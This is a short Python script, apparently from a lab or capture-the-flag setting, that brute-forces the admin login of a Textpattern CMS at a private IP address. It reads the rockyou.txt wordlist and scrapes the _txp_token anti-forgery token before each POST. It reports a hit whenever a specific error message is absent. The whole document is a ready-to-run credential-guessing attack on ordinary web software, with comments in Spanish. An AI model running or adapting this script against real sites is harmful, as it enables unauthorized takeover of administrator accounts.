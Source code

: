 textpattern_bruteforce


import requests
from bs4 import BeautifulSoup

# URL base del login
url_login = "http://192.168.55.219/textpattern/textpattern/index.php"

# Usuario y lista de contraseñas
usuario = "admin"
password_list = "/usr/share/wordlists/rockyou.txt"

# Leer contraseñas
with open(password_list, "r", encoding="utf-8", errors="ignore") as f:
    passwords = f.read().splitlines()

# Sesión para manejar cookies
session = requests.Session()

for pwd in passwords:
    # 1. GET para obtener el token
    r = session.get(url_login)
    soup = BeautifulSoup(r.text, "html.parser")
    token_tag = soup.find("input", {"name": "_txp_token"})
    if not token_tag:
        print("No se encontró el token")
        break
    token = token_tag.get("value", "")

    # 2. POST con usuario, contraseña y token
    data = {
        "login_username": usuario,
        "login_password": pwd,
        "_txp_token": token
    }
    post = session.post(url_login, data=data)

    # 3. Verificar si el login fue exitoso
    if "Sorry, the form could not be submitted" not in post.text:
        print(f"[+] Contraseña válida encontrada: {pwd}")
        break
    else:
        print(f"[-] Intento fallido: {pwd}")
"
